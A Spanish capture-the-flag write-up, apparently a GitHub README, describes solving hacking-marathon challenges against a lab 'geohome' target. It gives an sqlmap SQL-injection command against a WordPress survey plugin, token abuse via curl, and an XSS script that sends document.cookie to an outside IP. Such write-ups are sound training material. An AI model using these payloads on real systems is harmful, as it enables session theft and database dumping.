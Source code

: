 # hackton
Soluciones de la maraton de hacking
Participantes:

DeepHack
D3vil2Gh0st

Se realiza un escaneo con la herramienta NMAP para descubrir los puertos que la máquina objetiva tenga abierto. 



Para esta ocasión nos fijamos en los puertos 80 y 443, que son servidores Webs y pueden tener muchas vulnerabilidades críticas. 














FLAG{Update_Plugins!}

Lo primero que se busca en un servidor web, es un archivo llamado robots.txt el cual suele tener mucha información.


En esta ocasión nos muestra un nombre de servidor diferente al que trae la máquina. 
Con la herramienta wpscan analizamos la dirección ip que está compuesta por un wordpress para averiguar los plugins que esta tiene.
En ella se descubre el plugin perfect-survey, gracias a este plugin se ha podido inyectar código SQL 

Programa y comando usados:

sqlmap -u "https://wp.geohome.com/wp-admin/admin-ajax.php?action=get_question&question_id=1" --dump -D flag -T flag

OSINT

FLAG{ALWAYS_CHECK_COMMITS}

Accedemos al apartado https://github.com/geohome-dev y revisamos el contenido. Entramos en GeoAPI y vemos la siguiente entrada:



{“Flag”:”API_FLAG{Never_public_your_secret}

Posteriormente trataremos de usar el metodo POST para poder realizar el registro de un usuario. La idea es conseguir un Web TOKEN.

Seguimos haciendo una revisión de los contenidos, y observamos algunos commits subidos. Trás una revisión obtenemos la flag.



Haciendo uso de Postman, vamos a tratar de generar un archivo con formato Json para pasarle el data de forma adecuada. La URL que usaremos 192.168.58.136:5000/register.


Obtenemos un login satisfactorio, así que vamos a pasar al apartado de /login para ver si nos reporta el TOKEN.



curl http://wp.geohome.com:5000/admin -H “Authorization: Bearer TOKEN”

















FLAG{SANITIZE_INPUT}




<script>var x=new Image; x.src="http://192.168.1.47/?"+document.cookie;</script>



FLAG{SSRF_PARA_TOD@S_XD}


Hacemos recorrido de directorios para ver si encontramos algo adicional, y localizamos el directorio testsite.



Se modifica en el input la función action con el propio archivo testsite para así poder abrir cualquier dirección URL que se le introduzca, al ver que lo hacía, se escribe la dirección local, al ver que está saneada, se utiliza la técnica de bypass para vulnerar el saneamiento y así poder ver la flag.


